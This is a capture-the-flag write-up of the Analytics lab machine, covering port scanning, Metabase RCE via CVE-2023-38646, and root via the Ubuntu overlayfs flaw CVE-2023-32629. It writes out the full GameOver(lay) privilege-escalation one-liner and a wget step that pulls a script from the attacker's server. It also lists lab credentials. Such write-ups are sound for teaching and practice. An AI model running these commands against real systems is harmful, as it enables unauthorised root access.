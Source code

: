 # Machine Overview

**Analytics** was an easy-rated Linux machine, involving the exploitation of **CVE-2023-38646** for initial access and **CVE-2023-32629** for Privilege Escalation.

<img  alt="Pasted image 20240322120647" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/adce0329-b6e1-49bc-acd6-68eb1d6e2275">

# User
## Scanning with nmap
  
First of all, we will go with Nmap to scan the whole network and check for services running on the network. To scan the entire network and find all the open ports, I use **-p-** to scan all **65535** ports with **--min-rate 10000** to scan the network faster using **nmap**. After scanning, I retrieve a list of open ports on the network and extract only the open ports using various terminal tools like **cut**, **tr**, etc.

```bash
$ nmap -p- -Pn --min-rate 10000 10.10.11.233 -oN ini.txt && cat ini.txt | cut  -d ' ' -f1 | tr -d '/tcp' | tr '\n' ','
# Open ports
22,80
```

Now Let's run the depth scan on these specific ports using 

```bash
$ nmap -p22,80 -sC -sV -A -T4 -Pn 10.10.11.233 -oN scan.txt
```

- **-sC** is to run all the default scripts
- **-sV** for service and version detection
- **-A** to check all default things
- **-T4** for aggressive scan
- **-oN** to write the result into a specified file
- **-Pn** to Treat all hosts as online

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Information Gathering

Through Nmap, we discovered only two ports are open. On Port **22**, SSH version **8.9p1** is running on an Ubuntu system, and on port **80**, HTTP **Nginx 1.18.0** is running. Both versions of SSH and Nginx are not vulnerable, so I decided to directly visit the webpage. Let's add `analytical.htb` in our DNS file.

```bash
$ echo "10.10.11.233   analytical.htb" | sudo tee -a /etc/hosts
```

### 80 HTTP

The webpage is running the Data Analysis website, which deals in Data processing and helping customers to find recent trends and products, with different pages linked on the **navbar**.

<img  alt="Pasted image 20240321191106" src="https://github.com/iammR0OT/myaseen/assets/74102381/960bbbd9-408c-466d-a138-fccbb00742aa">

The Login button on navbar is retdirecting us to subdomain called `data.analytical.htb`. 

<img  alt="Pasted image 20240321191211" src="https://github.com/iammR0OT/myaseen/assets/74102381/38cb8468-eece-4e17-a3e9-e93bc94ee304">

Let's Add this to our local DNS file, so that we can resolve it.

```bash
$ cat /etc/hosts | grep analytical
10.10.11.233   analytical.htb data.analytical.htb
```

#### Initial Access

On `data.analytical.htb`, Metabase is running.
Metabase is **an open source business intelligence tool that lets you create charts and dashboards using data from a variety of databases and data sources**. You don't need to know SQL to create visualizations, but Metabase supports SQL for advanced customization.

<img  alt="Pasted image 20240321191714" src="https://github.com/iammR0OT/myaseen/assets/74102381/9175639c-936b-43f5-adef-4cf495ac45bf">

With a Quick google Search i was able to find a RCE exploit of metabase [CVE-2023-38646](https://github.com/m3m0o/metabase-pre-auth-rce-poc)

<img  alt="Pasted image 20240321191841" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/07497b78-0735-4057-b5a6-e922a9c0ca36">

To make this Exploit work, we needs the **target URL**, the **setup token** and a **command** that will be executed. The setup token can be obtained through the `/api/session/properties` endpoint. Copy the value of the `setup-token` key. 

<img  alt="Pasted image 20240321192204" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/916047a0-2bd7-49ad-8567-d1572a4a2eac">

Now we have all necessary things for exploit to work. Let's Exploit it...
- URL: `http://data.analytical.htb/`
- Setup-Token: `249fa03d-fd94-4d5b-b94f-b4ebf3df681f`
- Command: rev-shell

<img  alt="Pasted image 20240322105945" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/76f340f4-d143-49a2-ab81-62d1da352916">

We got a shell within no time. Let's run Linpease to check if we able to find any useful things to elevate our privileges.
**LinPEAS** is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts.
i'll be using python server to transfer linpease from my attacker machine to victime machine, for this you first need to start a python server on your local machine in a directory where linpeas is present.

```bash
$ python3 -m http.server 80
```

After that, use **wget** to transfer it to victim machine and using chmod, give it executable permissions.

```bash
$ wget <IP>/linpeas.sh
$ chmod +x linpeas.sh
```

<img  alt="Pasted image 20240322113146" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/4ef40d6e-2830-4cc7-bf34-dc2f66d2605d">

After running Linpeas, in Environments section, we were able to retrieve the password of a new user called **metalytics** 
- metalytics
- An4lytics_ds20223#

<img  alt="Pasted image 20240322114718" src="https://github.com/iammR0OT/myaseen/assets/74102381/357decf1-6a38-4d4d-a489-2e4e75c08e8e">

Let's SSH to machine using these Credentials and retrieve our user flag.

```bash
$ sshpass -p 'An4lytics_ds20223#' ssh metalytics@10.10.11.233
```

<img  alt="Pasted image 20240322114914" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/3278a655-71af-497f-b4db-7b9d1f918147">

# Privilege Escalation

Let's move toward privilege Escalation part. The very first thing i usually do is to check the kernel version running on machine, because if the version is outdated, then it will be low hanging fruit for us to gain root access on machine.
To check the kernel version, we can use multiple commands like

```bash
$ uname -a
$ cat /proc/version
$ lscpu
```

Linux **Kernel 6.2.0** is running on machine

<img  alt="Pasted image 20240322115359" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/14ed00e2-57f1-4247-924c-9a9c0613d82d">

With a quick google search i was able to find kernel exploit for privilege Escalation, [CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) called **GameOver(lay)** Ubuntu Privilege Escalation
Local privilege escalation vulnerability in Ubuntu Kernels overlayfs **ovl_copy_up_meta_inode_data** skip permission checks when calling ovl_do_setxattr on Ubuntu kernels.


<img  alt="Pasted image 20240322115605" src="https://github.com/iammR0OT/myaseen/assets/74102381/4bd8a86f-6ca2-446b-8230-ee9eb244bfaa">

The payload will be.

```bash
$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

<img  alt="Pasted image 20240322120025" src="https://github.com/iammR0OT/myaseen/assets/74102381/bd0465d5-fb48-46c6-9dd9-ffd2be2be58b">


# Flags

User: edd9e7f9b0b992....7958419d05ccb 

Root: b9b4c98f4512a4....c0fad7fd933a6b

# Happy Hacking ❤
